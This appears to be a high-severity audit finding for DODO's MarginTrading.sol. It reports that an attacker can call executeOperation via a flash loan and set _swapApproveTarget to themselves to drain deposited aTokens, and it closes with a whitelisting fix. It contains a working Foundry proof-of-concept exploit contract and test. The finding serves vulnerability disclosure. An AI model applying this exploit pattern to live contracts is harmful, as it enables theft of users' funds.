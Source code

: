 pengun

high

# Attacker could call executeOperation and steal all funds in MarginTrading.sol

## Summary

`MarginTrading.sol` is vulnerable to funds theft due to the potential for a malicious user to call `executeOperation()` and approve tokens to their own address through the `_swapApproveTarget` parameter. This allows an attacker to drain all deposited tokens, particularly ATokens, from the contract.

## Vulnerability Detail

`MarginTrading.sol` is designed to allow the opening and closing of positions through `executeOperation()`. The function is called by `flashLoan()` in the lendingPool, and is triggered by the receiver's `executeOperation()` as defined in [Aave's FlashLoanLogic.sol](https://github.com/aave/aave-v3-core/blob/29ff9b9f89af7cd8255231bc5faf26c3ce0fb7ce/contracts/protocol/libraries/logic/FlashLoanLogic.sol#L102-L108). Due to the nature of `flashLoan()`, an attacker can set MarginTrading's `executeOperation()` as the receiver and call the function themselves to open or close positions as desired.

The more significant issue, however, is that an attacker can approve any tokens they choose to their own address by setting the `_swapApproveTarget` parameter to their own address. This allows the attacker to steal all tokens deposited in the contract, particularly ATokens, and leave the users with nothing.


### POC (foundry)
To run this POC code, you need to modify the executeOperation call in the flashLoan function of MockLendingPoolV3.sol like below.
`IFlashLoanReceiver(receiverAddress).executeOperation(assets, amounts, _premiums, msg.sender, params);`
This is because the actual aave LendingPool call `executeOperation()` on the receiver.
```solidity
contract Attack {
    address owner;
    
    MockERC20 public daiAToken;
    constructor(MockERC20 _daiA) {
        owner = msg.sender;
        daiAToken = _daiA;
    }
    function exploit(address target) public {
        uint256 balance = daiAToken.balanceOf(target);
        daiAToken.transferFrom(target, owner, balance);
    }
}
function testExploit() public {
    address _marginTrading = openMarginTradingDAIV3(user1, address(dai), address(weth), 10000 ether, 1 ether);
    
    address attacker = address(0xbad);
    vm.startPrank(attacker);
    address attackContract = address(new Attack(daiAToken));

    address[] memory assets = new address[](1);
    uint256[] memory amounts = new uint256[](1);
    uint256[] memory modes = new uint256[](1);
    
    assets[0] = address(dai);
    amounts[0] = 0;
    modes[0] = 0;
    uint8 _flag = 0;
    address _swapAddress = attackContract;
    address _swapApproveTarget = attackContract;
    address[] memory _swapApproveToken = new address[](1);
    _swapApproveToken[0] = address(daiAToken);
    bytes memory _swapParams = abi.encodeWithSignature("exploit(address)", _marginTrading);
    address[] memory _tradeAssets = new address[](0);
    address[] memory _withdrawAssets = new address[](0);
    address[] memory _withdrawAmounts = new address[](0);
    address[] memory _rateMode = new address[](0);
    address[] memory _debtTokens = new address[](0);
    bytes memory params = abi.encode(
        _flag,
        _swapAddress,
        _swapApproveTarget,
        _swapApproveToken,
        _swapParams,
        _tradeAssets,
        _withdrawAssets,
        _withdrawAmounts,
        _rateMode,
        _debtTokens
    );
    lendingPoolV3.flashLoan(
        _marginTrading, 
        assets, 
        amounts, 
        modes, 
        _marginTrading, 
        params, 
        0);

    console.log("marginTrading DAIA balance", daiAToken.balanceOf(_marginTrading));
    console.log("attacker DAIA balance", daiAToken.balanceOf(attacker));

    lendingPoolV3.withdraw(address(dai), daiAToken.balanceOf(attacker), attacker);
    console.log("attacker DAI balance", dai.balanceOf(attacker));
}
```

## Impact

An attacker can potentially steal all tokens deposited in `MarginTrading.sol` by calling `executeOperation()` with the `_swapApproveTarget` parameter set to their own address. This could result in significant financial losses for users.

## Code Snippet

https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L121-L166

## Tool used

Manual Review

## Recommendation

To address this vulnerability, it is recommended to manage the important parameters such as `_swapAddress` and `_swapApproveTarget` in a whitelist format. This will prevent attackers from setting these parameters to their own addresses and stealing all deposited tokens.